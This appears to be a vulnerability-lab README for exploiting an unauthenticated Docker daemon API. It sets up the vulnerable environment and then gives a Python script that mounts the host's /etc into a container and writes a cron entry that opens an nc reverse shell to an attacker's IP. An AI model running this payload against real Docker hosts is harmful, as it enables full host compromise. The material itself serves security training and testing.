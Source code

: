 # Docker daemon api unauthorized access exploit

[中文版本(Chinese version)](README.zh-cn.md)

Reference Links：

- http://www.loner.fm/drops/#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8

## Vulnerability environment

Enter the following command to build and run the vulnerability environment:

```
docker-compose build
docker-compose up -d
```

## Exploit

Start a container, and mount the host `/etc` folder to the container, then we will have read/write access to any files.

We can put the commands in crontab configuration file to reverse shell

```python
import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

Reverse shell exploit by injecting commands in crontab:

![](1.png)


**PS.** Attention here, payload above which is writing file to `/etc` volume out of docker container will make exceptions or different behavior because of running in different system。Like [Issue #66](https://github.com/vulhub/vulhub/issues/66), `nc` command in Ubuntu come from the OpenBSD project, it doesn't support `-e` for executing a command after connection. So payload above like `/usr/bin/nc your-ip 21 -e /bin/sh` will haven't a good running in this situation. Plz change it by yourself.

